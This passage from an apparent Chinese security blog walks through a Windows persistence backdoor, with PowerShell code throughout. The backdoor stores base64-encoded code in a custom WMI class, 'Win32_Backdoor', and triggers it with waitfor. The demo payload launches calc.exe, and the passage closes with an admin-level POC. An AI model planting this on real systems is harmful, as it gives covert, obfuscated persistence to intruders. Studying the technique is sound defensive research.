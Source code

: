 
以上操作如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-6-7/3-1.png)

执行payload：

```
$exec=([WmiClass] 'Win32_Backdoor').Properties['Code'].Value;
iex $exec
```

**注：**

通过Invoke-Expression执行命令也可以，使用iex是为了缩短长度

结合waitfor的参数格式，这里选择将代码编码为base64

对执行payload的代码进行base64编码，以下代码保存在code.txt：

```
$exec=([WmiClass] 'Win32_Backdoor').Properties['Code'].Value;
iex $exec
```

对其进行base64编码，代码如下：

```
$code = Get-Content -Path code.txt
$bytes  = [System.Text.Encoding]::UNICODE.GetBytes($code);
$encoded = [System.Convert]::ToBase64String($bytes)
$encoded 
```

获得base64加密代码如下：

`JABlAHgAZQBjAD0AKABbAFcAbQBpAEMAbABhAHMAcwBdACAAJwBXAGkAbgAzADIAXwBCAGEAYwBrAGQAbwBvAHIAJwApAC4AUAByAG8AcABlAHIAdABpAGUAcwBbACcAQwBvAGQAZQAnAF0ALgBWAGEAbAB1AGUAOwAgAGkAZQB4ACAAJABlAHgAZQBjAA==`

以上操作如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-6-7/3-2.png)


测试base64加密代码：

`powershell -nop -E JABlAHgAZQBjAD0AKABbAFcAbQBpAEMAbABhAHMAcwBdACAAJwBXAGkAbgAzADIAXwBCAGEAYwBrAGQAbwBvAHIAJwApAC4AUAByAG8AcABlAHIAdABpAGUAcwBbACcAQwBvAGQAZQAnAF0ALgBWAGEAbAB1AGUAOwAgAGkAZQB4ACAAJABlAHgAZQBjAA==`

成功执行代码，如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-6-7/3-3.png)


根据以上思路，POC如下：

后门代码：

（管理员权限）

```
$StaticClass = New-Object Management.ManagementClass('root\cimv2', $null,$null)
$StaticClass.Name = 'Win32_Backdoor'
$StaticClass.Put()
$StaticClass.Properties.Add('Code' , "cmd /c start calc.exe ```&```& waitfor persist ```&```& powershell -nop -E JABlAHgAZQBjAD0AKABbAFcAbQBpAEMAbABhAHMAcwBdACAAJwBXAGkAbgAzADIAXwBCAGEAYwBrAGQAbwBvAHIAJwApAC4AUAByAG8AcABlAHIAdABpAGUAcwBbACcAQwBvAGQAZQAnAF0ALgBWAGEAbAB1AGUAOwAgAGkAZQB4ACAAJABlAHgAZQBjAA==")
$StaticClass.Put() 
```
